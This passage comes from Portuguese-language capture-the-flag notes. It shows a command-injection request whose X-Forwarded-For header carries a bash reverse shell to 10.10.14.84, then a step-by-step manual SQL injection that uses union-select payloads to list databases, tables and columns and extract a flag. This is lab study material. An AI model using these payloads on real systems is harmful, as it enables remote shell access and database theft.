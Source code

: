     `GET /firewall.php HTTP/1.1
    X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.14.84/1234 0>&1';`
    
    Colocar um listener na maquina e esperar pela resseção da comunicação 
    
- Manual SQL Injection
    
    [MySQL :: MySQL 8.0 Reference Manual :: 26.3.31 The INFORMATION_SCHEMA SCHEMATA Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2067.png)
    
    Apos testar sql injection, temos um resultado diferente
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2068.png)
    
    Pela imagem vemos que o sql injection foi bem sucedido. Ou seja, este site está vulnerável a sql injection.
    
    Agora passamos para Burp Suite 
    
    `' union select group_concat(schema_name) from information_schema.schemata-- -`
    
    ```
    Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
    ```
    
    Aqui vemos que existe uma base de dados diferente das default chamada `november`
    
    `player=' union select group_concat(table_name, column_name) from information_schema.columns where TABLE_SCHEMA like 'november'-- -`
    
    ```
    Sorry, flagone,playersplayer you are not eligible due to already qualifying.
    ```
    
    Melhorando o output
    
    `player=' union select group_concat(table_name,":",column_name, "\n") from information_schema.columns where TABLE_SCHEMA like 'november'-- -`
    
    ```
    Sorry, flag:one
    ,players:player
     you are not eligible due to already qualifying.
    ```
    
    Aqui vemos que o nome da tabela que existe na base de dados `november` é flag com a coluna one e a tabela players com coluna player
    
    Agora queremos o que contem a coluna one da tabela flag
    
    `player=' union select group_concat(one, "\n") from november.flag-- -`
    
    ```
    Sorry, **UHC{F1rst_5tep_2_Qualify}**
     you are not eligible due to already qualifying.
    ```
    